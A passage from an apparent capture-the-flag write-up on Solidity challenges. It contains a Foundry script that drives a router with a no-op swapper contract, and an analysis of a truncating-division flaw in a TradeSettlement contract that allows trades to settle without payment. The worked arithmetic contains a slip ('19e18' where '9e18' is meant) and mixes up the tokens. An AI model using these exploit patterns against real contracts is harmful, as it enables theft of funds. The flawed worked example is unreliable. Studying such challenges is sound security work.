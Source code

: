 Since we transfer 0 tokens, the `tokenIn` isn't important since no transfer takes place in the [TokenHelper lib](https://etherscan.io/address/0x8086174bE8FC721CbF275545193a73f56FBF3384#code#F11#L20) if the amount is 0. Our aggregator is straightforward too, just write a function that does nothing:

```javascript    
contract Nopper{
    function swap(address token, uint amt, SwapData calldata swapdata) public {  
        uint nop = 42069;      
    }
}
```

Piecing everything together, we just pass in our nop-swapper and token address into the `createTokenInputStructForPOC()` function and send it off to the router:

```javascript
function run() external {
    uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
    vm.startBroadcast(deployerPrivateKey);        
    Nopper nop = new Nopper();        
    Challenge chal = Challenge(0x43fb730c44f030be579B465D65eBA6E51fCF8C47);
    address player = chal.PLAYER();
    address token = chal.token();
    router.swapTokenToToken(player,0,createTokenInputStructForPOC(address(token),0,address(nop)));        
    vm.stopBroadcast();     
}
```

## 8inch

This challenge provides us with an intent-based trading contract, `TradeSettlement`, and sets it up with a trade to sell 10 WOJAK tokens for 1 WETH. The goal is that the address `0xc0ffee` has 10 WOJAK tokens. Note that WETH in this case is not wrapped Ether, just another token created by the challenge contract and controls the full supply. 

Looking at the `TradeSettlement`, there are only 2 venues for WOJAK tokens to flow out to some recipient, `settleTrade()` and `cancelTrade()`. `cancelTrade()` only allows the trade maker to cancel their own trade, so the only way this challenge can be solved is through the `settleTrade()` function somehow. The first thing that becomes clear is that there is an unsafe divsion taking place in one of the transfer functions:

```javascript
function settleTrade(uint256 _tradeId, uint256 _amountToSettle) external nonReentrant {
    Trade storage trade = trades[_tradeId];
    require(trade.isActive, "Trade is not active");
    require(_amountToSettle > 0, "Invalid settlement amount");
    uint256 tradeAmount = _amountToSettle * trade.amountToBuy;
    require(trade.filledAmountToSell + _amountToSettle <= trade.amountToSell, "Exceeds available amount");

    //unsafe integer division
    require(IERC20(trade.tokenToBuy).transferFrom(msg.sender, trade.maker, tradeAmount / trade.amountToSell), "Buy transfer failed");
    ...
}
```
Since there is an order to trade 10 WOJAK for 1 WETH, if we submitted a `settleTrade()` call that settled 9 WETH wei, we'd end up with receive 9 WOJAK wei for free. That's because the `transferFrom()` amount is `9 * 1e18` (our 9 wei times the 1 WETH output wanted), divided by `10e18`, the amount of WOJAK to sell. Since solidity truncates the remainer, we have `19e18/10e18 = 0`, meaning no WETH is transferred from us. 
